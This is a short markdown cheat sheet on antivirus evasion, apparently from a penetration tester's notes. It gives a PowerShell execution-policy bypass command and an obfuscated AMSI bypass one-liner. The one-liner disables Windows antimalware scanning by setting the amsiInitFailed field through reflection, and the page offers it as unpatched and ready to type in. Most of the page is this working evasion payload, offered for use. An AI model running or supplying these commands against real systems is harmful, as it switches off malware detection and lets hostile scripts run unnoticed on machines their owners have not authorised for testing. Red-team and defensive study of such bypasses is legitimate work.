 # Antivirus Bypass & Evasion Techniques

## Bypassing AMSI and Disable Execution Policy

- `PS C:\> powershell -ep bypass`
- So now that we have bypassed PowerShell’s execution policy, we need to disable AMSI. Below is a good bypass for AMSI that hasn’t been patched by Microsoft yet. Type this into the PowerShell console to bypass AMSI. There are several others out there, but this is my go-to.
- `sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )`